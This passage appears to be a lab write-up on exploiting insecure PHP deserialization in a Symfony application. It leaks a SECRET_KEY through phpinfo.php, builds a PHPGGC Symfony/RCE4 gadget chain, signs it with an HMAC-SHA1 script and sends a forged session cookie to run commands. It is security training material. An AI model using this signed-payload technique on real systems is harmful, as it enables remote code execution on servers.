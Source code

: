 ```
```
- Decodes to:
```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJzZzdzYjAyYmhzNGR5MGpwZGEwNjMyaGhneHV5YzBlYSI7fQ==","sig_hmac_sha1":"940d6bdc284525e83036031488c1477ebf1f0606"}
```
- We see a Base64 encoded payload and a SHA1SUM signature (this is important)
3. HTTP response also discloses `/cig-bin/phpinfo.php` as a file
	1. Accessing this in the browser gives us all the information including disabled functions and the SECRET_KEY
		1. Note the disabled functions and note down the SECRET_KEY
4. If we repeat a request that has deliberately broken the serialised object we get a 500 Internal Server Error and it also discloses the PHP framework information to us:
	1. `Internal Server Error: Symfony Version: 4.3.6`
5. Now we know the framework, search for and test one of the payloads using PHPGGC
```sh
./phpggc -l symfony # list payloads for symfony
./phpggc -f Symfony/RCE4 exec "sleep 5" # create sleep payload - we also know exec is not disabled on the server
```
6. Try submitting the serialised object (URL-encoded) and we get an error
```
Cookie: session=<@urlencode>a:2:{i:7;O:47:"Symfony\Component...<SNIP>...</@urlencode>
```
- The error is:
```
PHP Fatal error:  Uncaught Exception: Signature does not match session in /var/www/index.php:7
Stack trace:
#0 {main}
  thrown in /var/www/index.php on line 7
```
7. Recall that the original message has a Base64 encoded token and a "sig_hmac_sha1"
	1. This is making a signature of the Base64 encoded token likely
8. Create a PHP script that will generate a SHA1SUM of the Base64 encoded payload using the SECRET_KEY value taken from `phpinfo.php`
```php
<?php
$secretKey = 'SECRET_KEY';
$message = 'BASE64-PAYLOAD';
$hmacSha1 = hash_hmac('sha1', $message, $secretKey);
echo 'HMAC-SHA1: ' . $hmacSha1;
?>
```
9. Test the above script first with the Base64 token from the original serialised object and confirm that the SHA1SUM generated matches the serialised object
```sh
php sha1sum.php
# 940d6bdc284525e83036031
```
10. After confirming that we can now successfully sign serialised objects, try the `Symfony/RCE4` payload again. Make sure to Base64 encode it
```sh
./phpggc -f -b Symfony/RCE4 exec "sleep 5"
```
11. Repeat the process in step 8 and collect the SHA1SUM
12. Construct the serialised object
```
{"token":"BASE64-PAYLOAD","sig_hmac_sha1":"SHA1SUM"}
```
13. Confirm that the target sleeps for 5 seconds
14. Repeat the steps to execute the command to delete Carlos' `morale.txt`
# Exploiting Ruby deserialization using a documented gadget chain
- Delete `morale.txt`